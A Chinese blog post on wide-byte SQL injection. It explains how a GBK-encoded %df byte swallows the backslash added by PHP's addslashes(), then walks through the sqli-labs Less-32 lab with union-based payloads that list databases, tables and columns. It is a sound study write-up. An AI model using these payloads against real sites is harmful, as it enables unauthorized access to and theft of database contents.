 ```yaml
---
title: "SQL宽字节注入"
date: 2021-03-02T18:58:31+08:00
lastmod: 2021-03-02T18:58:31+08:00
draft: false
keywords: ["sql","注入","安全"]
description: ""
tags: ["sql","注入"]
categories: ["安全"]
author: ""

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: true
autoCollapseToc: false
postMetaInFooter: false
hiddenFromHomePage: false
# You can also define another contentCopyright. e.g. contentCopyright: "This is another copyright."
contentCopyright: false
reward: false
mathjax: false
mathjaxEnableSingleDollar: false
mathjaxEnableAutoNumber: false

# You unlisted posts you might want not want the header or footer to show
hideHeaderAndFooter: false

# You can enable or disable out-of-date content warning for individual post.
# Comment this out to use the global config.
#enableOutdatedInfoWarning: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


搭建本地环境sqli-labs做的宽字节sql注入测试。
<!--more-->
### 宽字节注入原理

在说注入原理前，首先得认识PHP中的**addslashes()**函数：

![](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/addslashes()%E5%87%BD%E6%95%B0.png)



也就是说，当你输入单引号等字符时，addslashes函数会自动加上**\\**对字符进行转义，这样就会使得普通字符型注入只添加单引号闭合无法生效；

那么，要找到注入点就要想办法从addslashes函数逃逸出来。才能实现引号的闭合。这里存在两种办法：

1. 把addslashes()函数所添加的反斜杠再添加一个反斜杠，对反斜杠进行转义，即“\\\”。
2. 想办法让\\消失。

针对第二种方法，利用的是mysql的一个特性，mysql在使用GBK编码时会认为两个字符时一个汉字（前一个ascii码要大于128，才到汉字的范围）

> ​					’       ->     \\'      ->   %5c%27
>

> ​				%df     ->  %df\\'  ->   %df%5c%27  -> %}
>

加入单引号时，addslashes()函数会自动添加反斜杠对单引号进行转移，而mysql使用GBK编码时对字符进行编码\\‘就变成了%5c%27，这个时候如果再在%5c%27前面加上一个字符如“%df”（ascii码大于128的字符即可），mysql在进行GBK编码时，会将两个字符%df%5c认为是一个汉字，这个时候单引号就可以逃逸出来进行单引号闭合。

### sqli-labs实例  Less-32

根据题目提示**Bypass addslashex()**以及页面提示即可知道该题为宽字节注入题目。

- 首先我们针对第一种方法进行测试输入id=1看输出结果

![image-20200707121348454](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sql%E6%B3%A8%E5%85%A5.png)

输入反斜杠和单引号看输出结果

![image-20200707121643216](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sql%E6%B3%A8%E5%85%A52.png)

从Hint可看到无论输入反斜杠还是单引号，后台最终都会对输入的反斜杠和单引号进行转义。所以此方法行不通。

- 第二种方法测试，让反斜杠进行GBK编码时消失。

输入:?id=%df 会发现返回了一个乱码（中文乱码）说明%df%5c结合成了一个汉字，反斜杠消失。

反斜杠消失后即可根据常规单引号闭合注入方法进行sql语句的注入。

### sql注入步骤

1.查列数，order by + 数字 进行测试

```
id=%df%27 order by 3 %23
```

2.查回显位置

```
?id=%df%27 union select 1,2,3 %23?
```

3.查库名

```
?id=%df%27 union select 1,database(),3 %23
```

4.查表名

```
?id=%df%27 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 %23
```

![image-20200707123721606](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sqlzhuru.png)

5.查列名

```
?id=%df%27 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='xxxx'),3 %23
```

这里输入table_name='users'时，addslashex()函数还会对单引号进行转义。可对users进行hex编码即转为16进制。

![image-20200707123956587](https://cdn.jsdelivr.net/gh/wtnyzhsq/cdnstatic/img/sqlzhuru2.png)

得到列名表名即可得到数据库信息。



------

**参考：安全课堂的视频内容。**

**以上内容均为个人理解，如有错误，请指正**